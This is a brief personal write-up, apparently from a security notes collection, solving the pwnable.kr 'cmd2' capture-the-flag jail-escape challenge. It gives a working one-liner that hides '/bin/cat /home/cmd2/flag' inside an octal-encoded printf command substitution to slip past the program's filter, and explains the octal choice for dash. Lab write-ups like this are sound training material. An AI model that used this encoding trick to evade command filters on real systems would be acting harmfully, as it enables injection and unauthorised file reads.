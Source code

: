 ```yaml
---
title: Pwnable.kr Cmd2
date: 2022-08-20T19:28:06+02:00
tags: ['cs/security']
aliases: ['']
---
```


Similar to [[notes/uolp | cmd1]], this one is another jail escape. I am not
going to go too much into details, but we can run the following:

```sh
./cmd2 '$(printf "\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147")'
```

Which executes the command below:

```sh
/bin/cat /home/cmd2/flag
```

> [!info] Take note

> The reason we use `\<octal>` instead of `\x<hex>` is because the first one is
> more standard we the cmd is run in dash shell.

